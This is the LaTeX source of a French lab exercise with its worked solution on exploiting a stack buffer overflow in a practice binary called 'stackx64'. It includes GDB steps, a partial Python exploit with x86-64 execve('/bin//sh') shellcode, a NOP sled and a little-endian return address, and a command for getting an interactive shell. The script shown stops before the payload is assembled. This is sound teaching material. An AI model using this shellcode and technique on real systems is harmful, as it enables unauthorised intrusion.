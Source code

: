 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{enumerate}
\item[\textbf{3c)}] Exécuter l'exploit :
\begin{lstlisting}[style=GDBStyle]
(python3 exploit_phase3.py ; cat) | ./stackx64
\end{lstlisting}
Le \texttt{; cat} maintient \texttt{stdin} ouvert pour interagir avec le shell obtenu. Vérifier que vous obtenez un shell en tapant \texttt{whoami}.

\item[\textbf{3d)}] Expliquer pourquoi l'adresse de retour doit être écrite en \textbf{little-endian}. Convertir l'adresse \texttt{0x7fffffffde10} en little-endian.
\end{enumerate}

\begin{attention}
Les adresses peuvent être \textbf{différentes} entre GDB et l'exécution directe. GDB ajoute des variables d'environnement qui décalent la pile. Si l'exploit fonctionne dans GDB mais pas en dehors, ajustez l'adresse (typiquement quelques dizaines d'octets de différence).
\end{attention}

\begin{correction}

\textbf{3a)} Dans GDB :
\begin{lstlisting}[style=GDBStyle]
(gdb) break vulnerable_function
(gdb) run
(gdb) disassemble
   ...
   0x000000000040120e <+24>:  lea    rax,[rbp-0x40]   ; buffer = rbp - 0x40
   ...
(gdb) next   (jusqu'apres gets)
(gdb) print $rbp - 0x40
$1 = (void *) 0x7fffffffde10
\end{lstlisting}
L'adresse du buffer est \texttt{0x7fffffffde10}.

\textbf{3b)} Script Python3 pour l'exploit :
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
import sys

# Shellcode execve("/bin//sh", NULL, NULL) - 25 bytes
shellcode = (
    b"\x48\x31\xf6"
    b"\x56"
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
    b"\x57\x54\x5f"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)

offset = 72          # buffer(64) + saved RBP(8)
nop_size = offset - len(shellcode)  # 72 - 25 = 47

# Address inside the NOP sled (middle of buffer)
# Adjust this address based on your GDB output
ret_addr = 0x7fffffffde10 + 20  # point to middle of NOP sled

nop_sled = b"\x90" * nop_size
addr_bytes = ret_addr.to_bytes(8, byteorder='little')


\end{lstlisting}
\end{correction}
\end{exercice}
\end{document}
